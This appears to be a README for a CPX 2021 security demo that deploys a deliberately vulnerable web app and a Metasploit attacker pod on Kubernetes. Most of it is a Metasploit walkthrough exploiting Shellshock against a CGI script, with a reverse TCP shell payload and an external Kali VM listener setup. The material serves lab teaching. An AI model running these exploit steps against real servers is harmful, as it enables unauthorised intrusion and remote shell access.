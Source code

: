 # CPX 2021 demo
<!-- vim-markdown-toc GFM -->

* [Requirements](#requirements)
* [Installation](#installation)
* [Demo](#demo)
* [Cleanup](#cleanup)
* [Attacker from external VM](#attacker-from-external-vm)
* [Tips](#tips)

<!-- vim-markdown-toc -->

# Requirements

- [Helm3](https://helm.sh/)
- *Highly recommended*:][K9S](https://github.com/derailed/k9s)
- If you want to demo using the hard way: [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl/)

# Installation
> Make sure you are using Helm3 client
```bash
# Install our sushi restaurant web page
helm install -f cpx-sushi/values.yaml --namespace sushi --create-namespace sushi-restaurant cpx-sushi
# Install the attacker client
helm install -f attacker-cpx/values.yaml --namespace attacker --create-namespace attacker-client attacker-cpx
# Ignore the stdout printed by helm
```

# Demo

Run K9S, check the namespace 'vulnerable' and verify there are 2 pods running
there:

- metasploit-client: We will use this as the "attacker machine"
- vuln-app-cpx-helm-vulnerable: We will use this as the "victim machine"

Verify the vulnerable namespace has a LoadBalancer service which is has an
external-IP assigned. Write down this value as we will need it during the
attack phase. This will allow attacking the application even from outside the
K8S cluster.

Start a shell within the metasploit container and execute:
```bash
cd /usr/src/metasploit-framework
./msfconsole -r docker/msfconsole.rc -y $APP_HOME/config/database.yml
# The metasploit framework shall start...
```

Using the metasploit framework we will exploit the <i>apache_mod_cgi_bash_env_exec</i>:
```bash
search shellshock
# Locate the module with the name apache_mod_cgi_bash_env
use exploit/multi/http/apache_mod_cgi_bash_env_exec
# Check available options
show options
# Set RHOST to the external IP of the vuln-app-cpx-helm-vulnerable
set rhost <external-ip>
# You could also use the internal cluster IP since the metasploit pod has visibility of the vulnerable pod
set rport 80
set targeturi /cgi-bin/menu
# Set the payload
set payload linux/x86/shell/reverse_tcp
# Check if target is vulnerable
check
# Exploit vulnerability
exploit
```

At this point you may get multiple sessions opened in background mode. List
them and use one of them to exploit the reverse tcp shell:
```bash
#List sessions
sessions
# Run interactive shell in session #1
sessions -i 1
# Start running commands
whoami
ls -la
```
#Cleanup
```bash
helm uninstall sushi-restaurant -n sushi
helm uninstall attacker-client -n attacker
```
# Attacker from external VM
In order to setup the attacker machine from an external VM running a
distribution like Kali Linux, you will need to assign a public IP address to
this machine so that it is reachable. Additionally, the port where the the
reverse shell connection will be established needs to be allowed for input
connections (i.e: In AWS the security group of the EC2 instance needs to allow
input connections to port <X>)

How to run the exploit is very similar. First ssh into the Kali Linux machine:
```bash
# Start metasploit console
msfconsole
# Follow the same steps that we already described
# We will need to set a few extra options
set lhost <public-ip-of-vm>
set lport <port-that-we-allow-input-connections>
# set lport 4444
check
exploit
```

# Tips

- Use K9S client to demonstrate interactively how to perform the attack, it
  will save sometime if you need to run kubectl all the time
  
# Based on original demo created here: https://github.com/chkp-ivanmar/cpx-2021-demo
